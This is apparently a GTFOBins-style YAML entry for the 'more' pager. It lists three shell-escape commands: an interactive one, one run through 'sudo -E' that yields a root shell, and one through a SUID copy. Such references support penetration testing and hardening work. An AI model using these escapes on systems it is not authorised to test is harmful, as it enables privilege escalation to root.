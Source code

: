 ```yaml
---
functions:
  execute-interactive:
    - code: |
        TERM= more /etc/profile
        !/bin/sh
  sudo-enabled:
    - code: |
        TERM= sudo -E more /etc/profile
        !/bin/sh
  suid-limited:
    - code: |-
        TERM= ./more /etc/profile
        !/bin/sh
---
```

